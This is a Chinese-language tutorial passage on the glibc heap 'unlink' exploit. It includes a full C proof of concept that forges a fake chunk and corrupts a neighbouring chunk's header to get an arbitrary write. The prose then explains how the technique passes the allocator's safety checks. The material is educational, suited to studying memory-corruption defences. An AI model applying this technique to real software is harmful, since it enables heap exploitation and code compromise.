

# Unlink Exploit

在unlinkMACRO 中添加了两个安全检查（”corrupted size vs. prev_size” and “corrupted double-linked list”），这在一定程度上减少了攻击的影响。
这种攻击利用`unlink`MACRO中完成的指针操作，同时从bin中移除一个chunk。

```c++
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
  printf("%p\n", &chunk1);
  printf("%p\n", chunk1);
  printf("%p\n", chunk2);
  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header
  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("%p\n", chunk1);
  printf("%x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}
```

通过malloc得到两个大小为0x80的块确保他们在 small bin 范围内，然后假设攻击者以某种方式对chunk1内容进行无限制控制（比如strcpy用户输入）。两个块都将并排放在内存中，代码中 chunk_structure 使用自定义结构仅处于清晰的目的，在攻击情形中，攻击者只需要发送填写的字节。
在“data”部分创建了一个新的假chunk即 chunk1。在fd和bk指针被调整为通过“corrupted double-linked list”安全检查。攻击者的内容被溢出到chunk2的报头中设置适当prev_size和prev_in_use位。这确保了无论何时chunk2释放，fake_chunk将被检测为“释放”并且将是`unlinked`，此时各种内存区域状态如下：



一旦chunk2被释放，它就被当作一个small bin处理。然后会检查前一个和下一个chunk（通过内存）是否“空闲”。(前一个freak chunk为空闲） 如果任何chunk被检测为“空闲”，则unlinked用于合并连续的空闲块。该unlink宏执行的是修改指针以下两条指令：
